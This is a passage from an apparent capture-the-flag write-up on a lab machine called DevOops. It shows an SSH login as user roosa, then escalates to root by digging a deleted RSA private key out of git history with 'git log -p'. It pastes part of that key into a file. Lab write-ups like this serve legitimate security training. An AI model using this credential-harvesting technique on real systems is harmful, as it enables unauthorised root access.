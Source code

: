```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[0]─[4444]
╰─[:)] # ssh -i key roosa@10.10.10.91
The authenticity of host '10.10.10.91 (10.10.10.91)' can't be established.
ECDSA key fingerprint is SHA256:hbD2D4PdnIVpAFHV8sSAbtM0IlTAIpYZ/nwspIdp4Vg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.91' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

roosa@gitter:~$ 
```

# Privilege Escalation

Roosa has a git directory at /home/roosa/work/blogfeed/.git. It’s usually a good idea to search this folder for previous commits, branches and so forth. As Github repositories have all their changes documented, it’s often possible to find sensible data that was previously “deleted” by the thoughtful developers.  
Running *git log -p* inside the .git folder, we can see logs of previous commits.  
[More about .git dumping](https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/)

![GitLogDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/GitLogDevoops.png "Dumping Git Data from Misconfigured Web Servers")  

And finally, we got the original RSA Key.   
Copy it into the notepad, remove + signs and save it as a root.key file; to then connect by ssh to the machine with the root user.  

```
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[0]─[4454]
╰─[:)] # cat > keyroot 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArDvzJ0k7T856dw2pnIrStl0GwoU/WFI+OPQcpOVj9DdSIEde
8PDgpt/tBpY7a/xt3sP5rD7JEuvnpWRLteqKZ8hlCvt+4oP7DqWXoo/hfaUUyU5i
vr+5Ui0nD+YBKyYuiN+4CB8jSQvwOG+LlA3IGAzVf56J0WP9FILH/NwYW2iovTRK
nz1y2vdO3ug94XX8y0bbMR9Mtpj292wNrxmUSQ5glioqrSrwFfevWt/rEgIVmrb+
CCjeERnxMwaZNFP0SYoiC5HweyXD6ZLgFO4uOVuImILGJyyQJ8u5BI2mc/SHSE0c
F9DmYwbVqRcurk3yAS+jEbXgObupXkDHgIoMCwIDAQABAoIBAFaUuHIKVT+UK2oH
uzjPbIdyEkDc3PAYP+E/jdqy2eFdofJKDocOf9BDhxKlmO968PxoBe25jjjt0AAL
gCfN5I+xZGH19V4HPMCrK6PzskYII3/i4K7FEHMn8ZgDZpj7U69Iz2l9xa4lyzeD
k2X0256DbRv/ZYaWPhX+fGw3dCMWkRs6MoBNVS4wAMmOCiFl3hzHlgIemLMm6QSy
NnTtLPXwkS84KMfZGbnolAiZbHAqhe5cRfV2CVw2U8GaIS3fqV3ioD0qqQjIIPNM
HSRik2J/7Y7OuBRQN+auzFKV7QeLFeROJsLhLaPhstY5QQReQr9oIuTAs9c+oCLa
2fXe3kkCgYEA367aoOTisun9UJ7ObgNZTDPeaXajhWrZbxlSsOeOBp5CK/oLc0RB
GLEKU6HtUuKFvlXdJ22S4/rQb0RiDcU/wOiDzmlCTQJrnLgqzBwNXp+MH6Av9WHG
jwrjv/loHYF0vXUHHRVJmcXzsftZk2aJ29TXud5UMqHovyieb3mZ0pcCgYEAxR41
IMq2dif3laGnQuYrjQVNFfvwDt1JD1mKNG8OppwTgcPbFO+R3+MqL7lvAhHjWKMw
+XjmkQEZbnmwf1fKuIHW9uD9KxxHqgucNv9ySuMtVPp/QYtjn/ltojR16JNTKqiW
7vSqlsZnT9jR2syvuhhVz4Ei9yA/VYZG2uiCpK0CgYA/UOhz+LYu/MsGoh0+yNXj
Gx+O7NU2s9sedqWQi8sJFo0Wk63gD+b5TUvmBoT+HD7NdNKoEX0t6VZM2KeEzFvS
```
